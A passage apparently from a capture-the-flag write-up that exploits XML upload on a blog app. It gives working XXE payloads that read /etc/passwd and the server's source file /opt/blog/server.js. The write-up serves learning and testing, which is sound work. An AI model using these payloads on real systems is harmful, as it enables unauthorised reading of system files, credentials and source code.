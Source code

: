 ![](Pasted%20image%2020250528161238.png)

Inspecting the source code of the error I get an example of the file structure it accepts:

![](Pasted%20image%2020250528163245.png)

So I'll upload the example to test the functionality:

```xml
<post>
	<title>Example Post</title>
	<description>Example Description</description>
	<markdown>Example Markdown</markdown>
</post>
```

Then it automatically gets the content of it:

![](Pasted%20image%2020250528163445.png)

So now I'll craft a malicious xml file with the following content:

```xml
<!DOCTYPE item [ <!ELEMENT item ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<post>
	<title>Example Post</title>
	<description>Example Description</description>
	<markdown>&xxe;</markdown>
</post>
```

![](Pasted%20image%2020250528163758.png)

> Got an XXE!

So now I can try to read the source code. To do do, first I need to know the location of it by inputting a bad body on the `/login` request:

![](Pasted%20image%2020250528164923.png)

Checking the output, we can see that the server is located inside `/opt/blog`, so we can try to leak the typicall configuration file `server.js`:

```xml
<!DOCTYPE item [ <!ELEMENT item ANY >
<!ENTITY xxe SYSTEM "file:///opt/blog/server.js" >]>

<post>
	<title>Example Post</title>
	<description>Example Description</description>
	<markdown>&xxe;</markdown>
</post>
```
